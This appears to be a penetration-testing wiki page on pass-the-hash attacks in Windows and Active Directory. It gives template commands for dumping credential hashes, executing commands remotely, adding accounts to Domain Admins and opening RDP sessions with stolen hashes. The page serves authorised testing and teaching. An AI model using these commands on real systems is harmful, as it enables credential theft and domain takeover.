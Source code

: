 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1550.002
---
```


# Pass the hash

## Theory

An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with [overpass-the-hash](../kerberos/ptk.md)).

## Practice

There are many tools that implement pass-the-hash: [Impacket scripts](https://github.com/SecureAuthCorp/impacket) (Python) ([psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)...), [NetExec](https://github.com/Pennyw0rth/NetExec) (Python), [FreeRDP](https://github.com/FreeRDP/FreeRDP) (C), [mimikatz](https://github.com/gentilkiwi/mimikatz) (C), [lsassy](https://github.com/Hackndo/lsassy) (Python), [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) and many more.

{% tabs %}
{% tab title="Credentials dumping" %}
The Impacket script [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) has the ability to remotely dump hashes and LSA secrets from a machine (`LMhash` can be empty) (see [dumping credentials from registry hives](../credentials/dumping/sam-and-lsa-secrets.md)).

```bash
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound) (see [dumping credentials from registry hives](../credentials/dumping/sam-and-lsa-secrets.md)).

```bash
netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
```

[Lsassy](https://github.com/Hackndo/lsassy) (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in [BloodHound](https://github.com/BloodHoundAD/BloodHound). It works in standalone but also as a [NetExec](https://github.com/Pennyw0rth/NetExec) module (see [dumping credentials from lsass process memory](../credentials/dumping/lsass.md)).

```bash
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
lsassy -u $USER -H $NThash $TARGETS
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
```
{% endtab %}

{% tab title="Command execution" %}
Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash (`LMhash` can be empty).

```bash
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

[NetExec](https://github.com/Pennyw0rth/NetExec) (Python) has the ability to do it on a set of targets

```bash
netexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
netexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can pass-the-hash and open an elevated command prompt with [`sekurlsa::pth`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/pth).

```bash
sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
```
{% endtab %}

{% tab title="AD operations" %}
The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) (Python) can be used from a Linux system to operate LDAP queries, add a user to a group and so on (`LMhash` can be `ffffffffffffffffffffffffffffffff`).

```bash
pth-net rpc group members "Domain admins" -U 'Domain/User%LMhash:NThash' -S $DOMAIN_CONTROLLER
pth-net rpc group addmem "Domain admins" Shutdown -U 'Domain/Admin%LMhash:NThash' -S $DOMAIN_CONTROLLER
```
{% endtab %}

{% tab title="RDP access" %}
[FreeRDP](https://github.com/FreeRDP/FreeRDP) (C) has the ability to do pass-the-hash for opening RDP sessions.

```bash
xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
```
{% endtab %}
{% endtabs %}

### Limitations, tips and tricks

{% hint style="warning" %}
**UAC limits pass-the-hash**

UAC (User Account Control) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

* the registry key `LocalAccountTokenFilterPolicy` is set to `0` by default. It means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to do remote administration tasks. Setting it to `1` allows the other local admins as well.
* the registry key `FilterAdministratorToken` is set to `0` by default. It allows the built-in local admin account (RID-500, "Administrator") to do remote administration tasks. If set to `1`, it doesn't.

In short, by default, only the following accounts can fully take advantage of pass-the-hash:

* **local accounts** : the built-in, RID-500, "Administrator" account
* **domain accounts** : all domain accounts with local admin rights
{% endhint %}

{% hint style="info" %}
**WinRM enables pass-the-hash**

Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to `1`, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.
{% endhint %}

{% hint style="info" %}
**Machine accounts**

Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights (such as [SAM & LSA secrets dump](../credentials/dumping/sam-and-lsa-secrets.md)). These operations can instead be conducted after crafting a [Silver Ticket](../kerberos/forged-tickets/#silver-ticket) or doing [S4U2self abuse](../kerberos/delegations/s4u2self-abuse.md), since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

A domain controller machine account's NT hash can be used with pass-the-hash to [dump the domain hashes (NTDS.dit)](../credentials/dumping/ntds.md).
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/pass-the-hash/" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/" %}

